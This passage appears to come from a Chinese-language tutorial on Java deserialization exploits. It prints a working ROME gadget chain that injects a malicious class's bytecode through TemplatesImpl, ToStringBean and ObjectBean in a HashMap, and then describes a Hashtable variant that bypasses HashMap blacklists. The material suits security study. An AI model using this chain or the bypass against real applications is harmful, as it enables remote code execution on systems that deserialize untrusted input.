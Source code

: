 ```plain
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        setValue(templates,"_bytecodes",codes);


        ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));

        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);


        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashMap);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HashTable)：

这里针对如果入口类黑名单中存在 HashMap 类，我们这里能够用 HashTable 进行绕过，我们可以发现 HashTable 的 readObject 地方，对每个 key 和 value 都会调用 reconstitutionPut() 函数：

[![](assets/1701612185-d9af99dc47c3d2105a64eb216a1551d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155246-658cea7a-34f7-1.png)
